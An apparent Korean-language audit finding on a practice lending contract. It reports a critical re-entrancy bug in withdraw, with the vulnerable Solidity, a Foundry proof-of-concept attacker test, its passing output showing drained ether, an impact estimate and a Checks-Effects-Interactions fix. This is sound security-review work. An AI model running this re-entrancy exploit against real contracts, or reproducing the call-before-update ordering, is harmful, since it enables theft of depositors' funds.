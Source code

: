 # withdraw re-entrancy를 통한 담보 인출

## 설명

<aside>

### **키워드 : Vulnerability - Re-entrancy**

### **심각도 : Critical**

변수를 변화시키기 전에 call을 하기 때문에 re-entrancy를 활용하여 예치했던 본인의 ether와 대출금을 모두 인출하여 150%의 이득을 취할 수 있다.

</aside>

```solidity
uint256 borrowedETH = ((participateBooks[msg.sender].usdc_borrow *
    2) / _orcale.getPrice(address(0x0))) * 1e18;

require(
    participateBooks[msg.sender].eth_balance - borrowedETH >= amount
);

(bool success, ) = payable(msg.sender).call{value: amount}("");

participateBooks[msg.sender].eth_balance -= amount;
```

`participateBooks[msg.sender].eth_balance` 값을 비교한 뒤 값의 변화를 적용시키지 않고 call을 먼저 호출한다. 이로 인해 re-entrancy를 통해 ether를 원하는 만큼 전송할 수 있게 된다.

`participateBooks[msg.sender].eth_balance` 의 값이 변화하지 않으니 원하는 만큼 re-entrancy할 수 있다. 하지만 원하는 만큼 인출할 수는 없는데, call 이후 존재하는 `participateBooks[msg.sender].eth_balance -= amount;` 에 의해 내가 가진 이더보다 많이 인출할 경우 integer underflow가 발생할 수 있기 때문이다. revert가 나면 모든 상태 변화가 rollback 되므로, 해당 취약점으로는 최대 내가 예치한(담보로 맡긴)이더까지 인출할 수 있는 것이다.

## PoC

```solidity
function testPOC() external {
        vm.deal(address(this), 100000000 ether);
        lending.deposit{value: 100000000 ether}(address(0x00), 100000000 ether);
        dreamOracle.setPrice(address(0x0), 1 ether);

        console.log("before usdc", usdc.balanceOf(address(this)));
        (bool success, ) = address(lending).call(
            abi.encodeWithSelector(
                DreamAcademyLending.borrow.selector,
                address(usdc),
                50000000 ether
            )
        );
        console.log("after usdc", usdc.balanceOf(address(this)));
        count = 9;

        usdc.approve(address(lending), type(uint256).max);
        lending.withdraw(address(0x00), 10000000 ether);
        console.log(
            "Attack Result(usdc, ether), Lending's balance : ",
            usdc.balanceOf(address(this)),
            address(this).balance,
            address(lending).balance
        );
    }

    receive() external payable {
        while (count > 0) {
            --count;
            console.log("balance:", address(this).balance);
            lending.withdraw(address(0x00), 10000000 ether);
        }
    }
```

```solidity
Running 1 test for test/LendingTest.t.sol:Testx
[PASS] testPOC() (gas: 350645)
Logs:
  before usdc 100000000000000000000000000
  after usdc 100000000000000000000000000
  balance: 10000000000000000000000000
  balance: 20000000000000000000000000
...
  balance: 80000000000000000000000000
  balance: 90000000000000000000000000
  Attack Result(usdc, ether), Lending's balance :  100000000000000000000000000 100000000000000000000000000 1
```

현재 대출 기능이 완벽하게 구현되지 않아 정상적으로 동작하지 않기에 단순히 예치금을 다시 탈취하는 re-entrancy를 수행하는 PoC이다.

하지만 로직상 결국 `Check-Effects-Interactions` 가 아닌 `Check-Interactions-Effects` 순으로 구현되어 있기 때문에 이는 취약점으로 발현될 수 있다.

## 파급력

취약점을 악용한다면 최대 150%(예치금 100 + 대출 50)를 탈취할 수 있게 된다.

150% 보다 더 많은 금액을 탈취하려고 시도하면 이후 로직에 의해 integer underflow가 발생하여 revert가 일어나 rollback되기에 150%보다 더 많은 금액을 탈취할 수는 없지만 이를 수 차례 반복하면 사실상 무한정으로 인출이 가능한 것이나 다름없다.

Lending서비스의 담보물을 대출 상태와 관계 없이 출금 가능하기에 위험도를 매우 높음으로 판단하였다.

## 해결 방법

```solidity
require(
    participateBooks[msg.sender].eth_balance - borrowedETH >=
        amount
);

participateBooks[msg.sender].eth_balance -= amount;
(bool success, ) = payable(msg.sender).call{value: amount}("");
```

변수에 변화한 값을 먼저 적용시킨 뒤 call을 하여 `Checks-Effects-Interactions` 패턴으로 작성한다면 re-entrancy를 통해 허용된 ether보다 더 많은 ether 출금 시도를 막을 수 있게 된다.
